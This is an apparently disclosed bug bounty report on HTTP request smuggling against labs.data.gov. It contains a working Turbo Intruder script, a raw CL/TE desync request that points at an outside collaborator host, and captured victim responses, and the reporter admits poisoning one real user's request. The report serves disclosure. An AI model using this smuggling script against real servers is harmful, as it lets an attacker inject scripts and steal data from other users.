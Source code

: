 # HTTP Request Smuggling on https://labs.data.gov

## Report Details
- **Report ID**: 726773
- **URL**: https://hackerone.com/reports/726773
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-10-31T16:18:21.474Z
- **Disclosed**: 2020-05-13T16:28:01.942Z

## Reporter
- **Username**: puppykok
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
Greetings,

The application appears to be vulnerable to HTTP request smuggling due to a disagreement between the front-end and back-end server, where the front-end server uses the Transfer-Encoding header to determine content in the HTTP body, but back-end server uses the Content-Length header, which causes a desync. The following steps outline how to reproduce this vulnerability:

The purpose of the following Turbo Intruder script is to send a desync request followed by 14 requests in quick succession to increase the chances of catching the desync-ed request such that it would not poison the request of another user who happens to be browsing the page.
```
import re

def queueRequests(target, wordlists):

    # to use Burp's HTTP stack for upstream proxy rules etc, use engine=Engine.BURP
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    prefix = '''POST /hopefully404 HTTP/1.1
Host: o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1'''

    chunk_size = hex(len(prefix)).lstrip("0x")
    attack = target.req.replace('0\r\n\r\n', chunk_size+'\r\n'+prefix+'\r\n0\r\n\r\n')
    content_length = re.search('Content-Length: ([\d]+)', attack).group(1)
    attack = attack.replace('Content-Length: '+content_length, 'Content-length: '+str(int(content_length)+len(chunk_size)-3))
    engine.queue(attack)

    for i in range(14):
        engine.queue(target.req)
        time.sleep(0.05)


def handleResponse(req, interesting):
    table.add(req)
```
The following desync request issued to the server is shown below, where I changed the host header to my Burp's collaborator domain:
```
POST / HTTP/1.1
Host: labs.data.gov
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding : chunked

a2
POST /hopefully404 HTTP/1.1
Host: o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
From the following screenshot, you can see that a 'victim' request was caught which redirected to a 404 page, just as intended, since `https://www.data.gov/hopefully404` does not actually exist. In addition, by searching for my Burp's collaborator URL, you can see that there are 67 instances where the URL is reflected, some within script tags and sources:
{F622456}

The following request is heavily shortened to show that the attacker's host URL is reflected in multiple critical areas within the victim's response:
``` 
-snip
<script type='application/ld+json' class='yoast-schema-graph yoast-schema-graph--main'>{"@context":"https://schema.org","@graph":[{"@type":"WebSite","@id":"https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/#website","url":"https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/","name":"Data.gov","potentialAction":{"@type":"SearchAction","target":"https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/?s={search_term_string}","query-input":"required name=search_term_string"}}]}</script>
<!-- / Yoast SEO plugin. -->

-snip-

<link rel="stylesheet" href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/app/plugins/simple-tooltips/zebra_tooltips.css?ver=5.2.4">
<link rel="stylesheet" href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/app/plugins/the-events-calendar/common/src/resources/css/reset.min.css?ver=4.9.16">
<link rel="stylesheet" href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/app/plugins/the-events-calendar/common/src/resources/css/common.min.css?ver=4.9.16">
<link rel="stylesheet" href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/app/plugins/the-events-calendar/common/src/resources/css/tooltip.min.css?ver=4.9.16">
<link rel="stylesheet" href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/wp/wp-includes/css/dist/block-library/style.min.css?ver=5.2.4">

-snip-

<a class="dropdown-toggle local-link" data-toggle="dropdown" data-target="#" href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/communities/">Topics <b class="caret"></b></a>
<ul class="dropdown-menu topics">
	<li class="menu-agriculture topic-food"><a href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/food/" class="local-link"><i></i><span>Agriculture</span></a></li>
	<li class="menu-climate topic-climate"><a href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/climate/" class="local-link"><i></i><span>Climate</span></a></li>
	<li class="menu-consumer topic-consumer"><a href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/consumer/" class="local-link"><i></i><span>Consumer</span></a></li>
	<li class="menu-ecosystems topic-ecosystems"><a href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/ecosystems/" class="local-link"><i></i><span>Ecosystems</span></a></li>
	<li class="menu-education topic-education"><a href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/education/" class="local-link"><i></i><span>Education</span></a></li>
	<li class="menu-energy topic-energy"><a href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/energy/" class="local-link"><i></i><span>Energy</span></a></li>
	<li class="menu-finance topic-finance"><a href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/finance/" class="local-link"><i></i><span>Finance</span></a></li>
	<li class="menu-health topic-health"><a href="https://o0p31lhhe946t0sns65oy4vsejkb80.burpcollaborator.net/health/" class="local-link"><i></i><span>Health</span></a></li>
```
Note that this attack is not reliable and we may fail to 'catch on' to the victim's request which might inadvertently affect an innocent user. During testing, there was one such case of this happening and the Burp Collaborator manages to posion someone from Los Angeles, California:
{F622459}
{F622460}
In order to prevent affecting more innocent users, I stopped further testing after coming with the above proof of concept which should be sufficent to proof the existence of the vulnerability. Please let me know if any additional information is needed and I will gladly provide.

## Impact

Since the javascript imports on the page can be determined by the attacker, he can host a malicious domain to steal user data, perform stored cross-site scripting and defacing the webpage for the user whos request was poisoned by the desynced request. In addition, I noticed there was a Wordpress login page but seems like it requires a specially-configured browser to access the SSO. My suspicion is that it is very likely that an attacker can steal authenticated cookies/headers which will be sent to an attacker-controlled server, although I am unable to verify (Can't get SSO to work on my browser).

## Attachments
- turbo1.png
- turbo2.png
- turbo3.png
